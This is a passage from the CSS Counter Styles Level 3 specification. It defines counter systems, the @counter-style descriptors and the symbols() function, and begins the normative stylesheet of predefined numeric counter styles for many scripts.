The **alphabetic** counter system interprets the list of counter symbols as digits to an *alphabetic* numbering system, similar to the default `lower-alpha` counter style, which wraps from "a", "b", "c", to "aa", "ab", "ac". Alphabetic numbering systems do not contain a digit representing 0; so the first value when a new digit is added is composed solely of the first digit. Alphabetic numbering systems are commonly used for lists, and also appear in many spreadsheet programs to number columns. The first counter symbol in the list is interpreted as the digit 1, the second as the digit 2, and so on.

If the system is `alphabetic`, the `symbols` descriptor must contain at least two counter symbols, otherwise the rule does not define a counter style (but is still a valid rule). This system is defined only over strictly positive counter values.

> **Example:** A counter style using go stones can be defined as:
>
> ```
> @counter-style go {
>   system: alphabetic;
>   symbols: url(white.svg) url(black.svg);
>   suffix: " ";
> }
> ```
>
> It will then produce lists that look like:
>
>  One   Two   Three   Four   Five   Six   Seven
>
> > **Note:** This example requires support for SVG images to display correctly.

If there are *N* counter symbols, the representation is a base *N* alphabetic number using the counter symbols as digits. To construct the representation, run the following algorithm:

Let *N* be the length of the list of counter symbols, *value* initially be the counter value, *S* initially be the empty string, and *symbol(n)* be the nth counter symbol in the list of counter symbols (0-indexed).

While *value* is not equal to 0:

1. Set *value* to `value - 1`.
2. Prepend *symbol( *value* mod *N* )* to *S*.
3. Set *value* to `floor( value / N )`.

Finally, return *S*.

##### 3.1.5.  Positional Numerals: the `numeric` system {#css-counter-styles-3:numeric-system}

The **numeric** counter system interprets the list of counter symbols as digits to a "place-value" numbering system, similar to the default `decimal` counter style. The first counter symbol in the list is interpreted as the digit 0, the second as the digit 1, and so on.

If the system is `numeric`, the `symbols` descriptor must contain at least two counter symbols, otherwise the rule does not define a counter style (but is still a valid rule). This system is defined over all counter values.

> **Example:** A "trinary" counter style can be defined as:
>
> ```
> @counter-style trinary {
>   system: numeric;
>   symbols: '0' '1' '2';
> }
> ```
>
> It will then produce lists that look like:
>
> ```
> 1.   One
> 2.   Two
> 10.  Three
> 11.  Four
> 12.  Five
> 20.  Six
> ```

If there are *N* counter symbols, the representation is a base *N* number using the counter symbols as digits. To construct the representation, run the following algorithm:

Let *N* be the length of the list of counter symbols, *value* initially be the counter value, *S* initially be the empty string, and *symbol(n)* be the nth counter symbol in the list of counter symbols (0-indexed).

1. If *value* is 0, append `symbol(0)` to *S* and return *S*.
2. While *value* is not equal to 0:

  1. Prepend *symbol( *value* mod *N* )* to *S*.
  2. Set *value* to `floor( value / N )`.
3. Return *S*.

##### 3.1.6.  Accumulating Numerals: the `additive` system {#css-counter-styles-3:additive-system}

The **additive** counter system is used to represent "sign-value" numbering systems, which, rather than reusing digits in different positions to change their value, define additional digits with much larger values, so that the value of the number can be obtained by adding all the digits together. This is used in Roman numerals and other numbering systems around the world.

If the system is `additive`, the `additive-symbols` descriptor must contain at least one additive tuple, otherwise the rule does not define a counter style (but is still a valid rule). This system is nominally defined over all counter values (see algorithm, below, for exact details).

> **Example:** A "dice" counter style can be defined as:
>
> ```
> @counter-style dice {
>   system: additive;
>   additive-symbols: 6 ⚅, 5 ⚄, 4 ⚃, 3 ⚂, 2 ⚁, 1 ⚀;
>   suffix: " ";
> }
> ```
>
> It will then produce lists that look like:
>
> ```
>   ⚀  One
>   ⚁  Two
>   ⚂  Three
> ...
>  ⚅⚄  Eleven
>  ⚅⚅  Twelve
> ⚅⚅⚀  Thirteen
> ```

To construct the representation:

1. Let *value* initially be the counter value, *S* initially be the empty string, and *symbol list* initially be the list of additive tuples.
2. If *value* is zero:

  1. If *symbol list* contains a tuple with a weight of zero, append that tuple’s counter symbol to *S* and return *S*.
  2. Otherwise, the given counter value cannot be represented by this counter style, and must instead be represented by the fallback counter style.
3. For each *tuple* in *symbol list*:

  1. Let *symbol* and *weight* be *tuple*’s counter symbol and weight, respectively.
  2. If *weight* is zero, or *weight* is greater than *value*, continue.
  3. Let *reps* be `floor( value / weight )`.
  4. Append *symbol* to *S* *reps* times.
  5. Decrement *value* by `weight * reps`.
  6. If *value* is zero, return *S*.
4. Assertion: *value* is still non-zero.

   The given counter value cannot be represented by this counter style, and must instead be represented by the fallback counter style.

> **Note:** All of the predefined additive `@counter-style` rules in this specification produce representations for every value in their range, but it’s possible to produce values for `additive-symbols` that will fail to find a representation with the algorithm defined above, even though theoretically a representation could be found. For example, if a `@counter-style` was defined with `additive-symbols: 3 "a", 2 "b";`, the algorithm defined above will fail to find a representation for a counter value of 4, even though theoretically a "bb" representation would work. While unfortunate, this is required to maintain the property that the algorithm runs in linear time relative to the size of the counter value.

##### 3.1.7.  Building from Existing Counter Styles: the `extends` system {#css-counter-styles-3:extends-system}

The **extends** system allows an author to use the algorithm of another counter style, but alter other aspects, such as the negative sign or the suffix. If a counter style uses the `extends` system, any unspecified descriptors must be taken from the extended counter style specified, rather than taking their initial values.

If a `@counter-style` uses the `extends` system, it must not contain a `symbols` or `additive-symbols` descriptor, otherwise the rule does not define a counter style (but is still a valid rule).

If the specified `<counter-style-name>` is a `<symbolic-glyph>` (an ASCII case-insensitive match for any of the predefined symbolic counter styles), using `extend` extends from the “standard” definition of the rules provided in the normative stylesheet (rather than the exception allowing them to be drawn in a different, user-agent-specific fashion).

If the specified counter style name isn’t the name of any defined counter style, it must be treated as if it was extending the `decimal` counter style. If one or more `@counter-style` rules form a cycle with their `extends` values, all of the counter styles participating in the cycle must be treated as if they were extending the `decimal` counter style instead.

> **Example:** For example, if you wanted a counter style that was identical to decimal, but used a parenthesis rather than a period after it, like:
>
> ```
> 1) first item
> 2) second item
> 3) third item
> ```
>
> Rather than writing up an entirely new counter style, this can be done by just extending `decimal`:
>
> ```
> @counter-style decimal-paren {
>   system: extends decimal;
>   suffix: ") ";
> }
> ```

#### 3.2.  Formatting negative values: the `negative` descriptor {#css-counter-styles-3:counter-style-negative}

| Field | Value |
| --- | --- |
| Name: | **negative** |
| For: | `@counter-style` |
| Value: | `<symbol>` <symbol>? |
| Initial: | "-" |

The `negative` descriptor defines how to alter the representation when the counter value is negative.

The first `<symbol>` in the value is prepended to the representation when the counter value is negative. The second <symbol>, if specified, is appended to the representation when the counter value is negative.

> **Example:** For example, specifying `negative: "(" ")";` will make negative values be wrapped in parentheses, which is sometimes used in financial contexts, like "(2) (1) 0 1 2 3...".

Not all `system` values use a negative sign. In particular, a counter style **uses a negative sign** if its `system` value is `symbolic`, `alphabetic`, `numeric`, `additive`, or `extends` if the extended counter style itself uses a negative sign. If a counter style does not use a negative sign, it ignores the negative sign when generating a counter representation.

#### 3.3.  Symbols before the marker: the `prefix` descriptor {#css-counter-styles-3:counter-style-prefix}

| Field | Value |
| --- | --- |
| Name: | **prefix** |
| For: | `@counter-style` |
| Value: | `<symbol>` |
| Initial: | "" |

The `prefix` descriptor specifies a `<symbol>` that is prepended to the marker representation. Prefixes come before any negative sign.

> **Note:** Prefixes are only added by the algorithm for constructing the default contents of the `::marker` pseudo-element; the prefix is not added automatically when the `counter()` or `counters()` functions are used.

#### 3.4.  Symbols after the marker: the `suffix` descriptor {#css-counter-styles-3:counter-style-suffix}

| Field | Value |
| --- | --- |
| Name: | **suffix** |
| For: | `@counter-style` |
| Value: | `<symbol>` |
| Initial: | ". " |

The `suffix` descriptor specifies a `<symbol>` that is appended to the marker representation. Suffixes are added to the representation after negative signs.

> **Note:** Suffixes are only added by the algorithm for constructing the default contents of the `::marker` pseudo-element; the suffix is not added automatically when the counter() or counters() functions are used.

#### 3.5.  Limiting the counter scope: the `range` descriptor {#css-counter-styles-3:counter-style-range}

| Field | Value |
| --- | --- |
| Name: | **range** |
| For: | `@counter-style` |
| Value: | [ [ `<integer>` \| infinite ]{2} ]# \| auto |
| Initial: | auto |

The `range` descriptor defines the ranges over which the counter style is defined. If a counter style is used to represent a counter value outside of its ranges, the counter style instead drops down to its fallback counter style.

****auto****

: The range depends on the counter system:

  - For `cyclic`, `numeric`, and `fixed` systems, the range is negative infinity to positive infinity.
  - For `alphabetic` and `symbolic` systems, the range is 1 to positive infinity.
  - For `additive` systems, the range is 0 to positive infinity.
  - For `extends` systems, the range is whatever `auto` would produce for the extended system; if extending a complex predefined style ([§ 7 Complex Predefined Counter Styles](#css-counter-styles-3:complex-predefined-counters)), the range is the style’s defined range.

**[ [ `<integer>` | infinite ]{2} ]#**

: This defines a comma-separated list of ranges. For each individual range, the first value is the lower bound and the second value is the upper bound. This range is inclusive - it contains both the lower and upper bound numbers. If `infinite` is used as the first value in a range, it represents negative infinity; if used as the second value, it represents positive infinity. The range of the counter style is the union of all the ranges defined in the list.

  If the lower bound of any range is higher than the upper bound, the entire descriptor is invalid and must be ignored.

Implementations must support ranges with a lower bound of at least -215 and an upper bound of at least 215-1 (the range of a signed 2-byte int). They may support higher ranges. If any specified bound is outside of the implementation’s supported bounds, it must be treated as the closest bound that the implementation does support.

#### 3.6.  Zero-Padding and Constant-Width Representations: the `pad` descriptor {#css-counter-styles-3:counter-style-pad}

| Field | Value |
| --- | --- |
| Name: | **pad** |
| For: | `@counter-style` |
| Value: | `<integer [0,∞]>` && `<symbol>` |
| Initial: | 0 "" |

The `pad` descriptor allows an author to specify a "fixed-width" counter style, where representations shorter than the pad value are padded with a particular `<symbol>`. Representations larger than the specified pad value are constructed as normal.

**`<integer [0,∞]>` && `<symbol>`**

: The `<integer>` specifies a minimum length that all counter representations must reach.

  Let *difference* be the provided `<integer>` minus the number of grapheme clusters in the initial representation for the counter value. (Note that, per the algorithm to generate a counter representation, this occurs before adding prefixes/suffixes/negatives.) If the counter value is negative and the counter style uses a negative sign, further reduce *difference* by the number of grapheme clusters in the counter style’s `negative` descriptor’s `<symbol>`(s).

  If *difference* is greater than zero, prepend *difference* copies of the specified `<symbol>` to the representation.

  Negative `<integer>` values are not allowed.

> **Example:** The most common example of "fixed-width" numbering is zero-padded decimal numbering. If an author knows that the numbers used will be less than a thousand, for example, it can be zero-padded with a simple `pad: 3 "0";` descriptor, ensuring that all of the representations are 3 digits wide.
>
> This will cause, for example, 1 to be represented as "001", 20 to be represented as "020", 300 to be represented as "300", 4000 to be represented as "4000", and -5 to be represented as "-05".

> **Note:** The `pad` descriptor counts the number of grapheme clusters in the representation, but pads it with `<symbol>`s. If the specified `pad` <symbol> is multi-character, this will likely not have the desired effect. Unfortunately, there’s no way to use the number of grapheme clusters in the `pad` <symbol> without violating useful constraints. It is recommended that authors only specify <symbol>s of a single grapheme cluster in the `pad` descriptor.

#### 3.7.  Defining fallback: the `fallback` descriptor {#css-counter-styles-3:counter-style-fallback}

| Field | Value |
| --- | --- |
| Name: | **fallback** |
| For: | `@counter-style` |
| Value: | `<counter-style-name>` |
| Initial: | decimal |

The `fallback` descriptor specifies a fallback counter style to be used when the current counter style can’t create a representation for a given counter value. For example, if a counter style defined with a range of 1-10 is asked to represent a counter value of 11, the counter value’s representation is instead constructed with the fallback counter style (or possibly the fallback style’s fallback style, if the fallback style can’t represent that value, etc.).

If the value of the `fallback` descriptor isn’t the name of any defined counter style, the used value of the `fallback` descriptor is `decimal` instead. Similarly, while following fallbacks to find a counter style that can render the given counter value, if a loop in the specified fallbacks is detected, the `decimal` style must be used instead.

> **Note:** that it is not necessarily an error to specify fallback loops. For example, if an author desires a counter style with significantly different representations for even and odd counter values, they may find it easiest to define one style that can only represent odd values and one that can only represent even values, and specify each as the fallback for the other one. Though the fallback graph is circular, at no point do you encounter a loop while following these fallbacks - every counter value is represented by one or the other counter style.

#### 3.8.  Marker characters: the `symbols` and `additive-symbols` descriptors {#css-counter-styles-3:counter-style-symbols}

| Field | Value |
| --- | --- |
| Name: | **symbols** |
| For: | `@counter-style` |
| Value: | `<symbol>`+ |
| Initial: | n/a |

| Field | Value |
| --- | --- |
| Name: | **additive-symbols** |
| For: | `@counter-style` |
| Value: | [ `<integer [0,∞]>` && `<symbol>` ]# |
| Initial: | n/a |

```css
<symbol> = <string> | <image> | <custom-ident>
```

The `symbols` and `additive-symbols` descriptors specify the symbols used by the marker-construction algorithm specified by the `system` descriptor. The `@counter-style` rule must have a valid `symbols` descriptor if the counter system is `cyclic`, `numeric`, `alphabetic`, `symbolic`, or `fixed`, or a valid `additive-symbols` descriptor if the counter system is `additive`; otherwise, the `@counter-style` does not define a counter style (but is still a valid at-rule).

Some counter systems specify that the `symbols` descriptor must have at least two entries. If the counter style’s system is such, and the `symbols` descriptor has only a single entry, the `@counter-style` rule does not define a counter style.

Each entry in the `symbols` descriptor’s value defines a **counter symbol**, which is interpreted differently based on the counter style’s system. Each entry in the `additive-symbols` descriptor’s value defines an **additive tuple**, which consists of a counter symbol and an integer weight. Each weight must be a non-negative integer, and the additive tuples must be specified in order of strictly descending weight; otherwise, the declaration is invalid and must be ignored.

Counter symbols may be strings, images, or identifiers, and the three types can be mixed in a single descriptor. Counter representations are constructed by concatenating counter symbols together. Identifiers are rendered as strings containing the same characters. Images are rendered as inline replaced elements. The default object size of an image counter symbol is a 1em by 1em square.

> **Note:** The `<image>` syntax in `<symbol>` is currently at-risk. No implementations have plans to implement it currently, and it complicates some usages of `counter()` in ways that haven’t been fully handled.

> **Note:** If using identifiers rather than strings to define the symbols, be aware of the syntax of identifiers. In particular, ascii non-letters like "*" are not identifiers, and so must be quoted in a string. Hex escapes, used in several of the counter styles defined in this specification, "eat" the following space (to allow a digit to follow a hex escape without ambiguity), so two spaces must be put after a hex escape to separate it from the following one, or else they’ll be considered adjacent, and part of the same identifier. For example, `symbols: \660 \661;` only defines a single symbol, consisting of the U+0660 and U+0661 characters, rather than the two that were intended; either quote the escapes in strings, like `symbols: "\660" "\661"`, or put two spaces between the escapes.

#### 3.9.  Speech Synthesis: the `speak-as` descriptor {#css-counter-styles-3:counter-style-speak-as}

| Field | Value |
| --- | --- |
| Name: | **speak-as** |
| For: | `@counter-style` |
| Value: | auto \| bullets \| numbers \| words \| spell-out \| `<counter-style-name>` |
| Initial: | auto |

A counter style can be constructed with a meaning that is obvious visually, but impossible to meaningfully represent via a speech synthesizer or other non-visual means, or possible but nonsensical when naively read out loud. The `speak-as` descriptor describes how to synthesize the spoken form of a counter formatted with the given counter style. Assistive technologies should use this spoken form when reading out the counter style, and may use the `speak-as` value to inform transformations to outputs other than speech. Values have the following meanings:

****auto****

: If the counter style’s `system` is `alphabetic`, this value has the same effect as `spell-out`. If the `system` is `cyclic`, this value has the same effect as `bullets`. If the `system` is `extends`, this value has the same effect as `auto` would have for the extended style. Otherwise, this value has the same effect as `numbers`.

****bullets****

: The UA speaks a UA-defined phrase or audio cue that represents an unordered list item being read out.

****numbers****

: The counter’s numeric value is spoken as a number in the content language.

****words****

: Generate a counter representation for the value as normal, then speak it as normal text in the content language. If the counter representation contains images, instead handle the value as for `numbers`.

****spell-out****

: Generate a counter representation for the value as normal, then spell it out letter-by-letter in the content language. If the UA does not know how to pronounce the symbols (or the counter representation contains images), it must instead handle the value as for `numbers`.

  For example, `lower-greek` in English would be read out as "alpha", "beta", "gamma", etc. Conversely, `upper-latin` in French would be read out as (in phonetic notation) /a/, /be/, /se/, etc.

****`<counter-style-name>`****

: The counter’s value is instead spoken out in the specified style (similar to the behavior of the `fallback` descriptor when generating representations for a counter value). If the specified style does not exist, this value is treated as `auto`. If a loop is detected when following `speak-as` references, this value is treated as `auto` for the counter styles participating in the loop.

> **Example:** The ability to defer pronunciation to another counter style can help when the symbols being used aren’t actually letters. For example, here’s a possible definition of a `circled-lower-latin` counter-style, using some special Unicode characters:
>
> ```
> @counter-style circled-lower-latin {
>   system: alphabetic;
>   speak-as: lower-latin;
>   symbols: ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ;
>   suffix: " ";
> }
> ```
>
> Setting its `system` to `alphabetic` would normally make the UA try to read out the names of the characters, but in this case that might be something like "Circled Letter A", which is unlikely to make sense. Instead, explicitly setting `speak-as` to `lower-latin` ensures that they get read out as their corresponding latin letters, as intended.

### 4.  Defining Anonymous Counter Styles: the `symbols()` function {#css-counter-styles-3:symbols-function}

The `symbols()` function allows a counter style to be defined inline in a property value, for when a style is used only once in a stylesheet and defining a full `@counter-style` rule would be overkill. It does not provide the full feature-set of the `@counter-style` rule, but provides a sufficient subset to still be useful. The syntax of the `symbols()` rule is:

```css
symbols() = symbols( <symbols-type>? [ <string> | <image> ]+ )
<symbols-type> = cyclic | numeric | alphabetic | symbolic | fixed
```

The `symbols()` function defines an anonymous counter style with no name, a `prefix` of `""` (empty string) and `suffix` of `" "` (U+0020 SPACE), a `range` of `auto`, a `fallback` of `decimal`, a `negative` of `"\2D"` ("-" hyphen-minus), a `pad` of `0 ""`, and a `speak-as` of `auto`. The counter style’s algorithm is constructed by consulting the previous chapter using the provided system — or `symbolic` if the system was omitted — and the provided `<string>`s and `<image>`s as the value of the `symbols` property. If the system is `fixed`, the first symbol value is `1`.

If the system is `alphabetic` or `numeric`, there must be at least two `<string>`s or `<image>`s, or else the function is invalid.

> **Example:** This code:
>
> ```
> ol { list-style: symbols("*" "\2020" "\2021" "\A7"); }
> ```
>
> will produce lists that look like:
>
> ```
> *   One
> †   Two
> ‡   Three
> §   Four
> **  Five
> ††  Six
> ‡‡  Seven
> ```
>
> On the other hand, specifying the system of counter, like so:
>
> ```
> ol { list-style: symbols(cyclic "*" "\2020" "\2021" "\A7"); }
> ```
>
> will produce lists that look like:
>
> ```
> *   One
> †   Two
> ‡   Three
> §   Four
> *   Five
> †   Six
> ‡   Seven
> ```

> **Note:** the `symbols()` function only allows strings and images, while the `symbols` descriptor of a `@counter-style` rule also allows identifiers.

### 5.  Extending `list-style-type`, `counter()`, and `counters()` {#css-counter-styles-3:extending-css2}

In CSS Level 2 [CSS21] the `list-style-type` property and the `counter()` and `counters()` notations accept various pre-defined keywords, each identifying a counter style. This module extends these features to take instead the `<counter-style>` type, defined below:

```css
<counter-style> = <counter-style-name> | <symbols()>
```

If a `<counter-style-name>` is used that does not refer to any existing counter style, it must act identically to the `decimal` counter style (but does not *compute* to `decimal`).

When used in these contexts, a `<counter-style-name>` is a tree-scoped reference.

### 6.  Simple Predefined Counter Styles {#css-counter-styles-3:predefined-counters}

The following stylesheet uses the `@counter-style` rule to redefine all of the counter styles defined in CSS 2 and CSS 2.1. This stylesheet is normative—​UAs must include it in their UA stylesheet (or at least act as if these rules were defined at that level).

#### 6.1.  Numeric: `decimal`, `decimal-leading-zero`, `arabic-indic`, `armenian`, `upper-armenian`, `lower-armenian`, `bengali`, `cambodian`, `khmer`, `cjk-decimal`, `devanagari`, `georgian`, `gujarati`, `gurmukhi`, `hebrew`, `kannada`, `lao`, `malayalam`, `mongolian`, `myanmar`, `oriya`, `persian`, `lower-roman`, `upper-roman`, `tamil`, `telugu`, `thai`, `tibetan` {#css-counter-styles-3:simple-numeric}

****decimal****

: Western decimal numbers (e.g., 1, 2, 3, ..., 98, 99, 100).

****decimal-leading-zero****

: Decimal numbers padded by initial zeros (e.g., 01, 02, 03, ..., 98, 99, 100).

****arabic-indic****

: Arabic-indic numbering (e.g., ١‎, ٢‎, ٣‎, ٤‎, ..., ٩٨‎, ٩٩‎, ١٠٠‎).

****armenian** **upper-armenian****

: Traditional uppercase Armenian numbering (e.g., Ա, Բ, Գ, ..., ՂԸ, ՂԹ, Ճ).

****lower-armenian****

: Lowercase Armenian numbering (e.g., ա, բ, գ, ..., ղը, ղթ, ճ).

****bengali****

: Bengali numbering (e.g., ১, ২, ৩, ..., ৯৮, ৯৯, ১০০).

****cambodian** **khmer****

: Cambodian/Khmer numbering (e.g., ១, ២, ៣, ..., ៩៨, ៩៩, ១០០).

****cjk-decimal****

: Han decimal numbers (e.g., 一, 二, 三, ..., 九八, 九九, 一〇〇).

****devanagari****

: devanagari numbering (e.g., १, २, ३, ..., ९८, ९९, १००).

****georgian****

: Traditional Georgian numbering (e.g., ა, ბ, გ, ..., ჟჱ, ჟთ, რ).

****gujarati****

: Gujarati numbering (e.g., ૧, ૨, ૩, ..., ૯૮, ૯૯, ૧૦૦).

****gurmukhi****

: Gurmukhi numbering (e.g., ੧, ੨, ੩, ..., ੯੮, ੯੯, ੧੦੦).

****hebrew****

: Traditional Hebrew numbering (e.g., א‎, ב‎, ג‎, ..., צח‎, צט‎, ק‎).

****kannada****

: Kannada numbering (e.g., ೧, ೨, ೩, ..., ೯೮, ೯೯, ೧೦೦).

****lao****

: Laotian numbering (e.g., ໑, ໒, ໓, ..., ໙໘, ໙໙, ໑໐໐).

****malayalam****

: Malayalam numbering (e.g., ൧, ൨, ൩, ..., ൯൮, ൯൯, ൧൦൦).

****mongolian****

: Mongolian numbering (e.g., ᠑, ᠒, ᠓, ..., ᠙᠘, ᠙᠙, ᠑᠐᠐).

****myanmar****

: Myanmar (Burmese) numbering (e.g., ၁, ၂, ၃, ..., ၉၈, ၉၉, ၁၀၀).

****oriya****

: Oriya (Odia) numbering (e.g., ୧, ୨, ୩, ..., ୯୮, ୯୯, ୧୦୦).

****persian****

: Persian numbering (e.g., ۱, ۲, ۳, ۴, ..., ۹۸, ۹۹, ۱۰۰).

****lower-roman****

: Lowercase ASCII Roman numerals (e.g., i, ii, iii, ..., xcviii, xcix, c).

****upper-roman****

: Uppercase ASCII Roman numerals (e.g., I, II, III, ..., XCVIII, XCIX, C).

****tamil****

: Tamil numbering (e.g., ௧, ௨, ௩, ..., ௯௮, ௯௯, ௧௦௦).

****telugu****

: Telugu numbering (e.g., ౧, ౨, ౩, ..., ౯౮, ౯౯, ౧౦౦).

****thai****

: Thai (Siamese) numbering (e.g., ๑, ๒, ๓, ..., ๙๘, ๙๙, ๑๐๐).

****tibetan****

: Tibetan numbering (e.g., ༡, ༢, ༣, ..., ༩༨, ༩༩, ༡༠༠).

The following stylesheet fragment provides the normative definition of these predefined counter styles:

```
  @counter-style decimal {
    system: numeric;
    symbols: '0' '1' '2' '3' '4' '5' '6' '7' '8' '9';
  }

  @counter-style decimal-leading-zero {
    system: extends decimal;
    pad: 2 '0';
  }

  @counter-style arabic-indic {
    system: numeric;
    symbols: "\660" "\661" "\662" "\663" "\664" "\665" "\666" "\667" "\668" "\669";
    /* ٠ ١ ٢ ٣ ٤ ٥ ٦ ٧ ٨ ٩ */
  }

  @counter-style armenian {
    system: additive;
    range: 1 9999;
    additive-symbols: 9000 \554, 8000 \553, 7000 \552, 6000 \551, 5000 \550, 4000 \54F, 3000 \54E, 2000 \54D, 1000 \54C, 900 \54B, 800 \54A, 700 \549, 600 \548, 500 \547, 400 \546, 300 \545, 200 \544, 100 \543, 90 \542, 80 \541, 70 \540, 60 \53F, 50 \53E, 40 \53D, 30 \53C, 20 \53B, 10 \53A, 9 \539, 8 \538, 7 \537, 6 \536, 5 \535, 4 \534, 3 \533, 2 \532, 1 \531;
    /* 9000 Ք, 8000 Փ, 7000 Ւ, 6000 Ց, 5000 Ր, 4000 Տ, 3000 Վ, 2000 Ս, 1000 Ռ, 900 Ջ, 800 Պ, 700 Չ, 600 Ո, 500 Շ, 400 Ն, 300 Յ, 200 Մ, 100 Ճ, 90 Ղ, 80 Ձ, 70 Հ, 60 Կ, 50 Ծ, 40 Խ, 30 Լ, 20 Ի, 10 Ժ, 9 Թ, 8 Ը, 7 Է, 6 Զ, 5 Ե, 4 Դ, 3 Գ, 2 Բ, 1 Ա */
  }

  @counter-style upper-armenian {
    system: extends armenian;
  }

  @counter-style lower-armenian {
    system: additive;
    range: 1 9999;
    additive-symbols: 9000 "\584", 8000 "\583", 7000 "\582", 6000 "\581", 5000 "\580", 4000 "\57F", 3000 "\57E", 2000 "\57D", 1000 "\57C", 900 "\57B", 800 "\57A", 700 "\579", 600 "\578", 500 "\577", 400 "\576", 300 "\575", 200 "\574", 100 "\573", 90 "\572", 80 "\571", 70 "\570", 60 "\56F", 50 "\56E", 40 "\56D", 30 "\56C", 20 "\56B", 10 "\56A", 9 "\569", 8 "\568", 7 "\567", 6 "\566", 5 "\565", 4 "\564", 3 "\563", 2 "\562", 1 "\561";
    /* 9000 ք, 8000 փ, 7000 ւ, 6000 ց, 5000 ր, 4000 տ, 3000 վ, 2000 ս, 1000 ռ, 900 ջ, 800 պ, 700 չ, 600 ո, 500 շ, 400 ն, 300 յ, 200 մ, 100 ճ, 90 ղ, 80 ձ, 70 հ, 60 կ, 50 ծ, 40 խ, 30 լ, 20 ի, 10 ժ, 9 թ, 8 ը, 7 է, 6 զ, 5 ե, 4 դ, 3 գ, 2 բ, 1 ա */
  }

  @counter-style bengali {
    system: numeric;
    symbols: "\9E6" "\9E7" "\9E8" "\9E9" "\9EA" "\9EB" "\9EC" "\9ED" "\9EE" "\9EF";
    /* ০ ১ ২ ৩ ৪ ৫ ৬ ৭ ৮ ৯ */
  }

  @counter-style cambodian {
    system: numeric;
    symbols: "\17E0" "\17E1" "\17E2" "\17E3" "\17E4" "\17E5" "\17E6" "\17E7" "\17E8" "\17E9";
    /* ០ ១ ២ ៣ ៤ ៥ ៦ ៧ ៨ ៩ */
  }

  @counter-style khmer {
    system: extends cambodian;
  }

  @counter-style cjk-decimal {
    system: numeric;
    range: 0 infinite;
    symbols: \3007  \4E00  \4E8C  \4E09  \56DB  \4E94  \516D  \4E03  \516B  \4E5D;
    /* 〇 一 二 三 四 五 六 七 八 九 */
    suffix: "\3001";
    /* "、" */
  }

  @counter-style devanagari {
    system: numeric;
    symbols: "\966" "\967" "\968" "\969" "\96A" "\96B" "\96C" "\96D" "\96E" "\96F";
    /* ० १ २ ३ ४ ५ ६ ७ ८ ९ */
  }

  @counter-style georgian {
    system: additive;
    range: 1 19999;
    additive-symbols: 10000 \10F5, 9000 \10F0, 8000 \10EF, 7000 \10F4, 6000 \10EE, 5000 \10ED, 4000 \10EC, 3000 \10EB, 2000 \10EA, 1000 \10E9, 900 \10E8, 800 \10E7, 700 \10E6, 600 \10E5, 500 \10E4, 400 \10F3, 300 \10E2, 200 \10E1, 100 \10E0, 90 \10DF, 80 \10DE, 70 \10DD, 60 \10F2, 50 \10DC, 40 \10DB, 30 \10DA, 20 \10D9, 10 \10D8, 9 \10D7, 8 \10F1, 7 \10D6, 6 \10D5, 5 \10D4, 4 \10D3, 3 \10D2, 2 \10D1, 1 \10D0;
    /* 10000 ჵ, 9000 ჰ, 8000 ჯ, 7000 ჴ, 6000 ხ, 5000 ჭ, 4000 წ, 3000 ძ, 2000 ც, 1000 ჩ, 900 შ, 800 ყ, 700 ღ, 600 ქ, 500 ფ, 400 ჳ, 300 ტ, 200 ს, 100 რ, 90 ჟ, 80 პ, 70 ო, 60 ჲ, 50 ნ, 40 მ, 30 ლ, 20 კ, 10 ი, 9 თ, 8 ჱ, 7 ზ, 6 ვ, 5 ე, 4 დ, 3 გ, 2 ბ, 1 ა */
  }

  @counter-style gujarati {
    system: numeric;
    symbols: "\AE6" "\AE7" "\AE8" "\AE9" "\AEA" "\AEB" "\AEC" "\AED" "\AEE" "\AEF";
    /* ૦ ૧ ૨ ૩ ૪ ૫ ૬ ૭ ૮ ૯ */
  }

  @counter-style gurmukhi {
    system: numeric;
    symbols: "\A66" "\A67" "\A68" "\A69" "\A6A" "\A6B" "\A6C" "\A6D" "\A6E" "\A6F";
    /* ੦ ੧ ੨ ੩ ੪ ੫ ੬ ੭ ੮ ੯ */
  }

  @counter-style hebrew {
    system: additive;
    range: 1 10999;
    additive-symbols: 10000 \5D9\5F3, 9000 \5D8\5F3, 8000 \5D7\5F3, 7000 \5D6\5F3, 6000 \5D5\5F3, 5000 \5D4\5F3, 4000 \5D3\5F3, 3000 \5D2\5F3, 2000 \5D1\5F3, 1000 \5D0\5F3, 400 \5EA, 300 \5E9, 200 \5E8, 100 \5E7, 90 \5E6, 80 \5E4, 70 \5E2, 60 \5E1, 50 \5E0, 40 \5DE, 30 \5DC, 20 \5DB, 19 \5D9\5D8, 18 \5D9\5D7, 17 \5D9\5D6, 16 \5D8\5D6, 15 \5D8\5D5, 10 \5D9, 9 \5D8, 8 \5D7, 7 \5D6, 6 \5D5, 5 \5D4, 4 \5D3, 3 \5D2, 2 \5D1, 1 \5D0;
    /* 10000 י׳, 9000 ט׳, 8000 ח׳, 7000 ז׳, 6000 ו׳, 5000 ה׳, 4000 ד׳, 3000 ג׳, 2000 ב׳, 1000 א׳, 400 ת, 300 ש, 200 ר, 100 ק, 90 צ, 80 פ, 70 ע, 60 ס, 50 נ, 40 מ, 30 ל, 20 כ, 19 יט, 18 יח, 17 יז, 16 טז, 15 טו, 10 י, 9 ט, 8 ח, 7 ז, 6 ו, 5 ה, 4 ד, 3 ג, 2 ב, 1 א */
    /* This system manually specifies the values for 19-15 to force the correct display of 15 and 16, which are commonly rewritten to avoid a close resemblance to the Tetragrammaton. */
    /* Implementations MAY choose to implement this manually to a higher range; see note below. */
  }

  @counter-style kannada {
    system: numeric;
    symbols: "\CE6" "\CE7" "\CE8" "\CE9" "\CEA" "\CEB" "\CEC" "\CED" "\CEE" "\CEF";
    /* ೦ ೧ ೨ ೩ ೪ ೫ ೬ ೭ ೮ ೯ */
  }

  @counter-style lao {
    system: numeric;
    symbols: "\ED0" "\ED1" "\ED2" "\ED3" "\ED4" "\ED5" "\ED6" "\ED7" "\ED8" "\ED9";
    /* ໐ ໑ ໒ ໓ ໔ ໕ ໖ ໗ ໘ ໙ */
  }

  @counter-style malayalam {
    system: numeric;
    symbols: "\D66" "\D67" "\D68" "\D69" "\D6A" "\D6B" "\D6C" "\D6D" "\D6E" "\D6F";
    /* ൦ ൧ ൨ ൩ ൪ ൫ ൬ ൭ ൮ ൯ */
  }

  @counter-style mongolian {
    system: numeric;
    symbols: "\1810" "\1811" "\1812" "\1813" "\1814" "\1815" "\1816" "\1817" "\1818" "\1819";
    /* ᠐ ᠑ ᠒ ᠓ ᠔ ᠕ ᠖ ᠗ ᠘ ᠙ */
